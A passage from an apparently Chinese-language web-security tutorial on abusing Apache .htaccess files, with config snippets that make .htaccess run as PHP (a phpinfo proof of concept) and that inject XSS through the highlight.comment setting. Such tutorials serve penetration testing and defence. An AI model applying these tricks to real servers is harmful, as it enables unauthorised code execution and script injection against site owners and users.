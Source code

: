 - 方法二：直接将 .htaccess 文件当做 PHP文件处理

这种方法适合目标环境当前目录或子目录下没有 PHP 文件的情况下。

需要先在 .htaccess 里面设置允许访问 .htaccess 文件，否则是直接访问 .htaccess 文件是Forbidden的：

```php
<Files ~ "^.ht">
    Require all granted
    Order allow,deny
    Allow from all
</Files>
```

然后再设置将 .htaccess 指定当做 PHP 文件处理并解析：

```php
SetHandler application/x-httpd-php
# <?php phpinfo();?>
```

最终 .htaccess 文件里面的内容为：

```php
<Files ~ "^.ht">
    Require all granted
    Order allow,deny
    Allow from all
</Files>
SetHandler application/x-httpd-php
# <?php phpinfo();?>
```

然后我们直接访问 .htaccess 文件即可把 .htaccess 文件当做 PHP 文件处理并执行里面的 PHP 代码：

![](%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0.assets/1681146121225-3b3768bd-879c-446a-918c-0479d82a079e.png#alt=img)

### 进行 XSS 攻击

#### 通过设置 highlight_file

我们可以通过 .htaccess 文件设定 highlight.comment 选项，指定需要高亮的内容，从而进行 XSS。

.htaccess中的内容

```php
php_value highlight.comment '"><script>alert(1);</script>'
```

index.php中的内容为：

```php
<?php
highlight_file(__FILE__);
// comment
```

当访问index.php时便会触发 XSS：
